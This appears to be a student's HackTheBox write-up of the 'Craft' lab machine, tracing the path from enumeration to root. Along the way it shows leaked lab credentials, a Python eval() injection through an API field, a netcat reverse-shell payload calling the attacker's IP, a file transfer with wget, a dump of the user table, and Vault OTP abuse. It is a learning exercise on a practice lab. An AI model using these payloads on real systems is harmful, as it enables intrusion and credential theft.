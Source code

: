 # This is where my writeups for hackthebox will go!
## Craft Writeup:

One of my favourite machines so far on hackthebox! This felt like a proper hack with custom exploits and having to be able to understand the system before exploting it.
The custom API forces you to look for things that could be vulnerable. This box is medium difficulty.

### Port scan:
`PORT STATE SERVICE VERSION 22/tcp open ssh OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0) 443/tcp open ssl nginx 1.15.8 6022/tcp open ssh (protocol 2.0) 1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service : SF-Port6022-TCP:V=7.80%I=7%D=11/21%Time=5DD6F159%P=x86_64-pc-linux-gnu%r(N SF:ULL,C,"SSH-2.0-Go\r\n"); Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel`

So we know that it's Running nginx 1.15.8 On port 6022, ssh 2.0-go

 https://10.10.10.110/ --> get webpage

check certificate --> craft.htb API link goes to api.craft.htb URL

Your system will check the hosts file first before looking up a site on the DNS servers defined in your network settings

Edit /etc/hosts.txt to have 10.10.10.110 api.craft.htb

Click API link again, taken to API page. Other link on home page top right is gogs.craft.htb Add gogs.craft.htb to hosts file

https://api.craft.htb/api/brew/ https://api.craft.htb/api/auth/login needs password

In repo https://gogs.craft.htb/Craft/craft-api/compare/4fd8dbf8422cbf28f8ec96af54f16891dfdd7b95...10e3ba4f0a09c778d7cec673f28d410b73455a86

auth=('dinesh', '4aUh0A8PbVJxgd')

Try in /auth/login...

{"token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGluZXNoIiwiZXhwIjoxNTc0MzcxMDExfQ.hbUYCLi6US-Ka911usBo9BL4C5p87VRQAKx3jv9CJsM"}

https://api.craft.htb/api/auth/check makes sure token is valid...

Can use login page to login as dinesh.

https://gogs.craft.htb/Craft/craft-api/issues/2

curl -H 'X-Craft-API-Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidXNlciIsImV4cCI6MTU0OTM4NTI0Mn0.-wW1aJkLQDOE-GP5pQd3z_BJTe2Uo0jJ_mQ238P5Dqw' -H "Content-Type: application/json" -k -X POST https://api.craft.htb/api/brew/ --data '{"name":"bullshit","brewer":"bullshit", "style": "bullshit", "abv": "15.0")}'

could use token from earlier??

https://gogs.craft.htb/Craft/craft-api/src/master/tests/test.py

use test.py, add login from earlier to code... Get rid of warnings with

import urllib3 urllib3.disable_warnings()

when a user is able to provide the input, eval() will execute anything that's feeded to it. A user could build a string where additional python code is executed, such as erasing all files on the system or spawning a reverse shell. Therefore, eval()should never be used to process user input.

https://gogs.craft.htb/Craft/craft-api/commit/c414b160578943acfe2e158e89409623f41da4c6

### We can use eval function to run our own malicious code on the server!!
```python 
make sure the ABV value is sane.
    if eval('%s > 1' % request.json['abv']):
        return "ABV must be a decimal value less than 1.0", 400
    else:
        create_brew(request.json)
        return None, 201 
 ```
We can then use this bit of code to open a reverse shell...

     
`brew_dict['abv'] = "import('os').system('nc 10.10.15.75 1234 -e /bin/sh')"`

> nc -nvlp 1234

Drop shell!!!!!

cd /opt/app/craft_api cd /opt/app run dbtest.py

`{'id': 12, 'brewer': '10 Barrel Brewing Company', 'name': 'Pub Beer', 'abv': Decimal('0.050')}`

can't edit dbtest, use simplehttp server to upload an edited file...

on your kali : python -m SimpleHTTPServer 5555 on your target box: wget http://ip/filename

python -m SimpleHTTPServer 5555 wget http://10.10.15.75:5555/dbtestME.py

edit dbtest.py so sql = "SELECT database()" Run edited code... {'database()': 'craft'}

sql = "SELECT *FROM user" {'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}

result = cursor.fetchone() --> result = cursor.fetchall()

[{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'}, {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'}, {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]

log in to gogs as gilfoyle

id_rsa file...

use id_rsa and pass for gilfoyle to ssh in

ssh -i hash gilfoyle@10.10.10.110

USER FLAG

cd /usr/local/bin vault file... The Vault SSH secrets engine provides secure authentication and authorization for access to machines via the SSH protocol.

https://gogs.craft.htb/gilfoyle/craft-infra/commit/72bd340e48bd5565fd6c388deb124f39a93d5879

root OTP set

https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html

An authenticated client requests credentials from the Vault server and, If authorized, is issued an OTP. An attacker could spoof the Vault server returning a successful request.

/usr/local/bin$ vault write ssh/creds/root_otp ip=10.10.10.110 key 15f433c1-fb4f-7917-e6a5-e180d6d7bf3d

ssh into box with key as password

ROOT FLAG



I completed this box during my first semester and it was the most challenging and engaging yet. The ones that I have done at the time of writing are a bit harder and some just as interesting which I will upload soon!


